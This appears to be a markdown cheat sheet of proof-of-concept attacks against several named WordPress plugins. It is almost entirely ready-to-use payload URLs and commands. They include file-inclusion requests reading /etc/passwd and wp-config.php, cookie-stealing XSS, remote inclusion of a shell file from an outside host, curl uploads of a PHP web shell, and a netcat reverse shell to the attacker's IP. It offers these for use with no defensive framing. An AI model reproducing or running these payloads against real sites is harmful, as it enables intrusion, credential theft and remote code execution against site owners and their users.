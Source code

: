 ### WordPress plugin vulnerabilities

#### mail-masta - LFI
- **PoC**:  
  `http://target.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

#### localize-my-post - LFI
- **PoC**:  
  `http://target.com/wp-content/plugins/localize-my-post/ajax/include.php?file=../../../../../../../etc/passwd`  
  `http://target.com/wp-content/plugins/localize-my-post/ajax/include.php?file=../../../../../../var/log/apache2/access.log`

#### anti-plagiarism - XSS
- **PoC**:  
  `http://target.com/wp-content/plugins/anti-plagiarism/js.php?m=</script><script>alert(1)</script>`

#### simple-image-manipulator - LFI
- **PoC**:  
  `http://target.com/wp-content/plugins/simple-image-manipulator/controller/download.php?filepath=../../../../wp-config.php`

#### activehelper-livehelp - XSS
- **PoC**:  
  `http://target.com/wp-content/plugins/activehelper-livehelp/server/offline.php?MESSAGE=MESSAGE<script>alert(document.cookie)</script>`

#### amministrazione-aperta - LFI
- **PoC**:  
  `http://target.com/wp-content/plugins/amministrazione-aperta/wpgov/dispatcher.php?open=../../../../etc/passwd`

#### buddypress-component-stats - RFI/LFI
- **PoC**:  
  `http://target.com/wp-content/plugins/buddypress-component-stats/lib/dompdf/dompdf.php?input_file=http://malicious-site.com/shell.txt`  
- **Note**: Remote File Inclusion (RFI) — allows loading malicious files from an external server.

#### e-search - XSS
- **PoC**:  
  `http://target.com/wp-content/plugins/e-search/tmpl/title_az.php?title_az=</title><svg/onload=alert(1)>`

#### dzs-videogallery - Arbitrary file upload → RCE
- **PoC**:  
  ```bash
  curl -F "file=@/home/kali/shell.php" https://target.com/wp-content/plugins/dzs-videogallery/admin/upload.php
  ```
- **Shell content**:
  ```php
  <?php
  system($_GET['cmd']);
  ?>
  ```
- **Access the shell**:  
  `https://target.com/wp-content/plugins/dzs-videogallery/uploads/shell.php?cmd=whoami`
- **Reverse shell with Netcat**:  
  `https://target.com/wp-content/plugins/dzs-videogallery/uploads/shell.php?cmd=nc -e /bin/bash YOUR_IP 4444`
- **Tip**: Use [Arjun](https://github.com/s0md3v/Arjun) to discover hidden form parameters.

#### fancy-product-designer - Arbitrary file upload → RCE or LFI
- **PoC**:  
  ```bash
  curl -F "image=@/home/kali/shell.php" https://target.com/wp-content/plugins/fancy-product-designer/inc/custom-image-handler.php
  ```
- **Same method as above** (dzs-videogallery)

#### hd-webplayer - LFI
- **PoC**:  
  `http://target.com/wp-content/plugins/hd-webplayer/playlist.php?file=../../../../wp-config.php`
